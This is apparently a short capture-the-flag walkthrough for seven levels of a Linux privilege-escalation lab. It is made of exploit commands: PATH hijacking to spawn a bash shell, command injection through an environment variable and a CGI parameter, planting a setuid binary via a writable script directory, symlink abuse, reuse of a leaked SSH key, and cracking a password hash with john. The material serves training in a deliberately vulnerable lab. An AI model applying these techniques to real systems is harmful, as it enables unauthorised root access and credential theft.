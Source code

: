 ## Level01
* PATH=/tmp/:$PATH
* create a echo.c in /tmp
```
echo.c
#include<stdio.h>
#include<stdlib.h>

int main(){
    system("/bin/bash");
}

cc echo.c -o echo
```

## Level02
* export USER=";/bin/bash;"

## Level03
* create a `exploit.c` file (just copy from level01) in `/tmp`
* write a `run.sh` in `/home/flag03/writable.d`
```
run.sh
cc /tmp/exploit.c -o /home/flag03/exploit
chmod +s /home/flag03/exploit
```

## Level04
* ln -s /home/flag04/token /tmp/exploit
* ./flag04 /tmp/exploit

## Level05
* tar -xvzf /home/flag05/.backup/backup-19072011.tgz -C /tmp
* cd /tmp && ssh -i .ssh/id_rsa flag05@localhost

## Level06
* in `/etc/passwd` there is `flag06:ueqwOCnSGdsuM:993:993::/home/flag06:/bin/sh`
* save to to a file `crack.txt`
* `john crack.txt --show`
* result: flag06:hello:993:993::/home/flag06:/bin/sh

## Level07
* cd /tmp && wget http://localhost:7007/index.cgi?Host=%3Bgetflag
* cat index.cgi?Host=;getflag 

